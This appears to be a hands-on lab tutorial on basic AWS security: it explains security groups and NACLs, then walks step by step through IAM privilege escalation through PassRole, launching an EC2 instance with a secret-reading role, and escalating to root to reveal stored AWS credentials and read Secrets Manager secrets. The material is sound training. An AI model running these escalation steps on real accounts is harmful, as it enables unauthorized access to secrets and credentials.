# Basic cloud security
Today we will follow the tracks of a reckless engineer to read his darkest secrets. We will start on the workstation which you can find at https://lab.devopsplayground.org/

## Getting through the doors
Once you open your terminal, you can see the workdir directory with the `target-instance.txt` file where you can see a user and ip address of the server you need to log into. We will let you "guess" the password.
Assuming that you logged in successfully, we are going to stop and look at what we could do better on the account to prevent access to the server.
### Security Group
We are starting with Security groups which are attached to the instance. Allowing all traffic from any source is a dangerous practice and you should limit entries to the trusted sources and the ports actually used by the application/service.

<p align="center">
  
</p>

Security groups are stateful, therefore allowing incoming traffic allows the response.

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/security-groups.html

### NACL
Network Access Control Lists allow you to manage traffic within your VPC (applied to subnets), they are evaluated before Security groups and are stateless (You need to allow response traffic separately).

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/vpc-network-acls.html

### Systems Manager
Lastly - it is worth asking ourselves the question if allowing to access the instance via ssh is absolutely necessary. AWS allows you to use a session manager for console access to the server and use IAM to control the access to the instances.

See more in the documentation https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html

## IAM privilege escalation
### Discover available credentials 
Once we are logged in to the ec2 instance we can discover if any IAM and API credentials are available. Let's execute:
```
aws sts get-caller-identity
```
Your output should look like the following:
<p align="center">
  
</p>
We can see that the instance assumed role dpg-funny-panda-workstation. Let's see what permissions are attached to this role. We can do this by executing:

```bash
aws iam list-attached-role-policies --role-name dpg-funny-panda-workstation
```
Your output should look like this: 

<p align="center">
  
</p>

We can see one IAM policy attached to the role, let's investigate what permissions are defined in the policy.
First, we need to look into the policy:
```
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation
```

Your output should look like below:

<p align="center">
  
</p>

Note the default policy version and execute:
```
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation --version-id v3
```
You should see the full IAM policy and your output should start with below:

<p align="center">
  
</p>

The above policy allows us ec2 actions as as to pass secret-read-role. To investigate what policies this role has and what permissions are defined for this role, let's execute the three commands below
```
aws iam list-attached-role-policies --role-name secret-read-role
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret --version-id v1
```
Your last output should look like
<p align="center">
  
</p>


We can see that the policy allows us to read one of the secrets on the account. To do so we can create a new EC2 instance and attach a secret-read-role to the instance profile. Once connected to the new server we can read the secret. 

First, let's create a new key-pair:
```
aws ec2 create-key-pair \       
   --key-name funny-panda \
   --query 'KeyMaterial' --output text > ~/.ssh/funny-panda
```

Now it's time to find out more about our current instance and to deploy our new server in the same network. We can find our instance ID by executing:
```
aws sts get-caller-identity
```
Once we grab the id we can execute:
```bash
aws ec2 describe-instances --instance-ids i-02baacbaf617999e1
```
Your output should be a JSON file with the instance configuration like below.

<p align="center">
  
</p>

Note the AMI ID, Security group id, and subnet ids. As next step, let's create a new EC2 instance with the command below:
```bash
aws ec2 run-instances \
    --image-id ami-00caa7df15d2e771f \
    --count 1 \
    --instance-type t2.micro \
    --key-name funny-panda \
    --security-group-ids sg-09587dd14a1f9db3d \
    --subnet-id subnet-0dcf0c3a01abc9808 \
    --block-device-mappings "[{\"DeviceName\":\"/dev/sdf\",\"Ebs\":{\"VolumeSize\":30,\"DeleteOnTermination\":false}}]" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=funny-panda}]' 'ResourceType=volume,Tags=[{Key=Name,Value=funny-panda-disk}]'
```
Once your new instance is created - note its IP address. Next, let's create an instance profile.
```bash
aws iam create-instance-profile \
 --instance-profile-name funnypanda
```
and attach the role to the profile
```bash
aws iam add-role-to-instance-profile \
--instance-profile-name funnypanda \
--role-name secret-read-role
```
And finally, associate the profile with our instance:
```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=funnypanda --instance-id i-0516aa13e97073823
```
Now our new server is ready to be used. Let's modify the permissions of our key before we use it to ssh to the server:
```
chmod 400 ~/.ssh/funny-panda
```
And ssh to the target server:
```
ssh ec2-user@@10.0.10.156 -i ~/.ssh/funny-panda
```
Once logged in we can try our last command:
```
aws secretsmanager get-secret-value --secret-id playground-secret
```

## OS privilage escalation + API keys
So we managed to read one of the secrets, but there is still one more around the corner. Let's get back to our target instance and see if our user is added to the sudoers list.
```bash
sudo su
```
Now once we are a root user let's try:
```
aws sts get-caller-identity
```
You should notice that this time we assumed a different AWS entity, AWS user, like below:

<p align="center">
  
</p>

It looks like there are locally stored credentials for the root user which take precedence over the attached role. We can confirm that by trying

```bash
env | grep AWS
```
Now let's see what permissions we have attached to this user.

```bash
aws iam list-attached-user-policies --user-name dpg-sweet-panda
```
Looks like there are no policies attached:
<p align="center">
  
</p>
Let's see if the user has any inline policy then.

```bash
aws iam list-user-policies --user-name dpg-sweet-panda
```
<p align="center">
  
</p>
There is an inline policy attached to this user - let's investigate further

```bash
aws iam get-user-policy --user-name dpg-sweet-panda --policy-name policy-dpg-sweet-panda
```
You should notice a familiar statement in the policy
<p align="center">
  
</p>
Lastly, let's reveal the last part be executing:

```bash
aws secretsmanager get-secret-value --secret-id User_secret
```
